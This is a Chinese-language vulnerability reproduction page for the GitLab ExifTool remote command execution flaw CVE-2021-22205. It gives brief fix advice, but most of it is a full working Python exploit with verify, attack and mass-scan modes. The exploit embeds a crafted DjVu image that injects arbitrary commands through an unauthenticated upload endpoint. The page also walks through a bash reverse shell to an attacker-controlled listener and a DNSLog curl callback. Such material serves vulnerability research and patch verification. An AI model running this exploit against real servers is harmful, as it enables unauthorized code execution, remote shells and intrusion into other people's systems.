


GitLab 远程命令执行漏洞 CVE-2021-22205¶
漏洞描述¶
GitLab是一款Ruby开发的Git项目管理平台。在11.9以后的GitLab中，因为使用了图片处理工具ExifTool而受到漏洞CVE-2021-22204的影响，攻击者可以通过一个未授权的接口上传一张恶意构造的图片，进而在GitLab服务器上执行任意命令。
参考链接：
- https://hackerone.com/reports/1154542
- https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
- https://security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild/
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-22205.yaml
环境搭建¶
Vulhub执行如下命令启动一个GitLab 13.10.1版本服务器：
docker-compose up -d
环境启动后，访问http://your-ip:8080即可查看到GitLab的登录页面。
漏洞复现¶
GitLab的/uploads/user接口可以上传图片且无需认证，利用poc.py脚本来测试这个漏洞：
python poc.py http://your-ip:8080 "touch /tmp/success"

进入容器内，可见touch /tmp/success已成功执行：

另一个 exp：https://github.com/Al1ex/CVE-2021-22205
漏洞检测：
python3 CVE-2021-22205.py -v true -t http://your-target-ip:port/
DNSLog 回显：
python3 CVE-2021-22205.py -a true -t http://your-target-ip:port/ -c "curl http://your-ip/1.txt"
反弹 Shell：
# 写shell
python3 CVE-2021-22205.py -a true -t http://your-target-ip:port/ -c "echo 'bash -i >& /dev/tcp/your-ip/9999 0>&1' > /tmp/1.sh"
# 赋予执行权限
python3 CVE-2021-22205.py -a true -t http://your-target-ip:port/ -c "chmod +x /tmp/1.sh"
# 监听反弹shell端口
nc -vvl 9999
# 运行shell
python3 CVE-2021-22205.py -a true -t http://your-target-ip:port/ -c "/bin/bash /tmp/1.sh"
漏洞修复¶
-
设置 Gitlab 仅对可信地址开放；
-
升级至安全版本：
GitLab（CE/EE） >= 13.8.8 GitLab（CE/EE） >= 13.9.6 GitLab（CE/EE） >= 13.10.3
漏洞POC¶
exp：https://github.com/Al1ex/CVE-2021-22205
import requests
from bs4 import BeautifulSoup
import base64
import random
import sys
import os
import argparse
requests.packages.urllib3.disable_warnings()
def title():
print("""
______ _______ ____ ___ ____ _ ____ ____ ____ ___ ____
/ ___\ \ / / ____| |___ \ / _ \___ \/ | |___ \|___ \|___ \ / _ \| ___|
| | \ \ / /| _| _____ __) | | | |__) | |_____ __) | __) | __) | | | |___ \
| |___ \ V / | |__|_____/ __/| |_| / __/| |_____/ __/ / __/ / __/| |_| |___) |
\____ | \_/ |_____| |_____|\___/_____|_| |_____|_____|_____|\___/|____/
Author:Al1ex@Heptagram
Github:https://github.com/Al1ex
""")
print('''
验证模式：python CVE-2021-22205.py -v true -t target_url
攻击模式：python CVE-2021-22205.py -a true -t target_url -c command
批量检测：python CVE-2021-22205.py -s true -f file
''')
def check(target_url):
session = requests.Session()
try:
req1 = session.get(target_url.strip("/") + "/users/sign_in", verify=False)
soup = BeautifulSoup(req1.text, features="lxml")
token = soup.findAll('meta')[16].get("content")
data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{curl `whoami`.82sm53.dnslog.cn} . \\\n\" b \") ) \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
headers = {
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
"Connection": "close",
"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
"X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
flag = 'Failed to process image'
req2 = session.post(target_url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
if flag in req2.text:
print("[+] 目标 {} 存在漏洞".format(target_url))
else:
print("[-] 目标 {} 不存在漏洞".format(target_url))
except Exception as e:
print(e)
def attack(target_url,command):
session = requests.Session()
try:
req1 = session.get(target_url.strip("/") + "/users/sign_in", verify=False)
soup = BeautifulSoup(req1.text, features="lxml")
token = soup.findAll('meta')[16].get("content")
data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{"+ command +"} . \\\n\" b \") ) \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
headers = {
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
"Connection": "close",
"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
"X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}
flag = 'Failed to process image'
req2 = session.post(target_url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)
if flag in req2.text:
print("[+] 目标 {} 存在漏洞".format(target_url))
print("[+] 请到dnslog或主机检查执行结果")
else:
print("[-] 目标 {} 不存在漏洞".format(target_url))
except Exception as e:
print(e)
def scan(file):
for url_link in open(file, 'r', encoding='utf-8'):
if url_link.strip() != '':
url_path = format_url(url_link.strip())
check(url_path)
def format_url(url):
try:
if url[:4] != "http":
url = "https://" + url
url = url.strip()
return url
except Exception as e:
print('URL 错误 {0}'.format(url))
def main():
parser = argparse.ArgumentParser(description='GitLab < 13.10.3 RCE')
parser.add_argument('-v', '--verify', type=bool,help=' 验证模式 ')
parser.add_argument('-t', '--target', type=str, help=' 目标URL ')
parser.add_argument('-a', '--attack', type=bool, help=' 攻击模式 ')
parser.add_argument('-c', '--command', type=str, help=' 执行命令 ')
parser.add_argument('-s', '--scan', type=bool, help=' 批量模式 ')
parser.add_argument('-f', '--file', type=str, help=' 文件路径 ')
args = parser.parse_args()
verify_model = args.verify
target_url = args.target
attack_model = args.attack
command = args.command
scan_model = args.scan
file = args.file
if verify_model is True and target_url !=None:
check(target_url)
elif attack_model is True and target_url != None and command != None:
attack(target_url,command)
elif scan_model is True and file != None:
scan(file)
else:
sys.exit(0)
if __name__ == '__main__':
title()
main()